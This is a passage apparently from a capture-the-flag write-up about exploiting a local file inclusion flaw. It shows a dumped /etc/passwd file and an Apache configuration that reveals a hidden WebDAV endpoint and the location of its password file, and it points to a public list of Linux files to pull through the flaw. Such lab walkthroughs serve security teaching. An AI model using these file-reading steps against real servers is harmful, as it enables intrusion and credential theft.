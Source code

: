 Next, we will use a python script to save the list of linux files from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Linux-files.txt) to our local directory. We will then inspect the files in detail to check for any potential exploitation.

Looking at the /etc/passwd file that we have extracted using the LFI vulnerability on the website, we can know that there is a user ```cobb``` on the server.

```
/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
cobb:x:1000:1000::/home/cobb:/bin/bash
```

Looking at the /etc/apache2/sites-enabled/000-default.conf file that we have extracted from the website using the LFI vulnerability, we are able to obtain another endpoint ```/webdav_test_inception```. From the configuration file, we are also able to obtain the location of the authentication file to be at /var/www/html/webdav_test_inception/webdav.passwd

```
Alias /webdav_test_inception /var/www/html/webdav_test_inception
<Location /webdav_test_inception>
	Options FollowSymLinks
	DAV On
	AuthType Basic
	AuthName "webdav test credential"
	AuthUserFile /var/www/html/webdav_test_inception/webdav.passwd
	Require valid-user
</Location>
```
